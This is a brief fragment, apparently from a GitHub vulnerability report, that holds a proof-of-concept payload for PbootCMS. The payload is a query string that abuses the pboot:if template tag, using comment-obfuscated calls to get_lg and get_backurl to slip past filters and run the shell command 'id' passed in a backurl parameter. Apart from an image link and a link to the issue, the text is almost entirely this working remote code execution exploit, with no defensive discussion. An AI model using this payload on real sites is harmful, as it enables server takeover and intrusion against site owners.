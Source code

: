 poc：

```
?snakin=}{pboot:if((get_lg/*-*/())/**/(get_backurl/*-*/()))}{/pboot:if}&backurl=;id
```

![]([http://static.runoob.com/images/runoob-logo.png](https://camo.githubusercontent.com/038c9561fcfc03789a94a453eced386c365d083ef9bde95687400892a9bd12d0/68747470733a2f2f636f736d6f736c696e2e6f73732d636e2d6368656e6764752e616c6979756e63732e636f6d2f696d67322f696d6167652d32303232303532353030333631313933322e706e67))

link:https://github.com/Snakinya/Vuln/issues/1
